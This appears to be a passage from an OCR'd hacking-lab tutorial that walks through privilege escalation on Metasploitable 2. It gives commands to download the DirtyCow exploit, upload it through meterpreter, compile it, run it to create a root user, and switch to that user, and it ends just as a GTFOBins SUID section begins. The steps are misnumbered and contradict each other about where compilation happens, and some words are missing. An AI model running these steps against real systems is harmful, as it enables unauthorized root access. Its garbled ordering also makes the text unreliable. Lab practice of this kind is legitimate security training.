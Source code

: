 This works on old kernels — Metasploitable 2 has one!

#### ✅ Step-by-Step Guide:

1. On your **Kali machine**, download a DirtyCow exploit from GitHub:
See: [DirtyCow on Youtube](https://www.youtube.com/watch?v=YoeuGnF_2Qk) for more info
```bash
curl -O https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
```

3. **Upload the exploit to the target’s **``** directory**:

```bash
meterpreter > upload dirty /tmp/dirty
```

2. Compile the exploit:

```bash
gcc dirty.c -o dirty -pthread -lcrypt
```

**Why **``**?**

- `/tmp` is world-writable — any user can write there
- You usually don’t need special permissions to execute from `/tmp`
- You must compile it on the targets machine first otherwise it will compile for the wrong system architecture!

4. On the target:

```bash
shell
cd /tmp
chmod +x dirty
./dirty
```

5. After it runs, it should create a new user `firefart` with UID 0 (root). You can now switch users:

```bash
su firefart
```

Password will be shown in the exploit output — usually `dirtyCowFun` or similar.

---

### 🟢 Bonus Task 2: Try GTFOBins (SUID Binary Exploits)

**What is GTFOBins?** GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions. If a binary is SUID (set-user-ID), and it's on the list, it might let you escalate privileges — even to root.

You can find it here: [https://gtfobins.github.io](https://gtfobins.github.io)

#### ✅ Step-by-Step Guide:

1. Search for SUID binaries:
